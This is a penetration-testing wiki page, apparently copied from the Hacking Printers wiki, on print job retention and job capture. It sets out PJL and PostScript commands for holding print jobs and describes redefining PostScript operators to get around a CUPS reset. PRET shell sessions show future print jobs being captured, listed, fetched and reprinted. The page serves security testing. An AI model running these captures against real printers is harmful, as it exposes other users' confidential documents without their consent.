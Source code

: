 ```yaml
---
description: 'From http://hacking-printers.net/wiki/index.php/Print_job_retention'
---
```


# Print Job Retention

## Job Retention

Some printers have stored print jobs accessible from the web server. Usually however, job retention must be explicitly activated for a certain print job and can be done using standard PJL commands or proprietary PostScript code. Jobs are then kept in memory and can be reprinted from the control panel.

### PJL

Legitimate job retention can be enabled for the current document by setting the PJL HOLD variable as shown below:

```text
@PJL SET HOLD=ON
[actual data to be printed follows]
```

Hold jobs are kept in memory and can be reprinted from the printer's control panel. This feature is supported by various printers, however as it seems only some Epson devices allow permanent job retention beeing set using `@PJL DEFAULT HOLD=ON`.

**How to test for this attack?**

Use `hold`command from [**PRET** ](https://github.com/RUB-NDS/PRET)in pjl mode and to check if permanent job retention can be set:

```text
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```

### PostScript

PostScript offers similar functionality which however is model- and vendor-specific. For the HP LaserJet 4k series and various Kyocera printers, job retention can be enabled by prepending the following commands to a PostScript document:

```text
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```

While it is theoretically possible to permanently enable PostScript job retention using the [startjob ](./#postscript-ps)operator, this setting is explicitly reset by CUPS at the beginning of each print job using `<< /Collate false >> setpagedevice`. To counter this protection mechanism however, the attacker can permanently redefine the `setpagedevice` operator to have no effect at all.

**How to test for this attack?**

Use `hold`command from [**PRET** ](https://github.com/RUB-NDS/PRET) in ps mode:

```text
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```

## Job Capture

It is possible but uncommon to activate job retention in the printing dialog as discussed above. With PostScript however, one has complete access over the current print job and with the [startjob](./#postscript-ps) operator, it is even possible to break out of the server loop and access future jobs. Such functionality has the potential to capture all documents if PostScript is used as a printer driver.

### PostScript

With the capability to hook into arbitrary PostScript operators it is possible to manipulate and access foreign print jobs. To **parse the actual datastream send to the printer**, one can apply a pretty cool feature of the PostScript language: to read its own program code as data using the `currentfile` operator. This way, the whole datastream to be processed by the PostScript interpreter can be accessed by reading and stored to a file on the printer device. If the printer does not offer file system access, **captured documents can be stored in memory**, for example within permanent PostScript dictionaries.  
One practical problem is to decide **which operator should be hooked** as one does not gain access to the datastream until this operator is processed by the PostScript interpreter. As an attacker wants to capture print jobs from the very beginning, the **redefined operator must be the very first operator** contained in the PostScript document. Fortunately all documents printed with CUPS are pressed into a fixed structure beginning with `currentfile /ASCII85Decode filter /LZWDecode filter cvx exec`. Based on the assumption of such a fixed structure, the attacker can capture documents from the beginning and execute \(aka print\) the file afterwards. For printing systems **other than CUPS** this attack should also be possible, but **operators need to be adapted**. Note that the PostScript header which usually includes media size, user and job names cannot be captured using this method because we first hook into at the beginning of the actual document. Another generic strategy to hook into at the beginning of every print job is to set the `BeginPage` system parameter, if supported by the printer \(most printer do\). This vulnerability has presumably been present in printing devices for decades as solely language constructs defined by the PostScript standard are abused.

Use `capture` command from [**PRET**](https://github.com/RUB-NDS/PRET) in ps mode:

```text
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture 
Print job operations:  capture <operation>
  capture start   - Record future print jobs.
  capture stop    - End capturing print jobs.
  capture list    - Show captured print jobs.
  capture fetch   - Save captured print jobs.
  capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```

Now, print arbitrary documents \(make sure PRET is disconnected to not block the printing channel\). Afterwards, you can list, fetch or reprint captured documents:

```text
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator             
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -                   
Jan 25 18:40  170K  -              -                       -                   
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received. 
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```

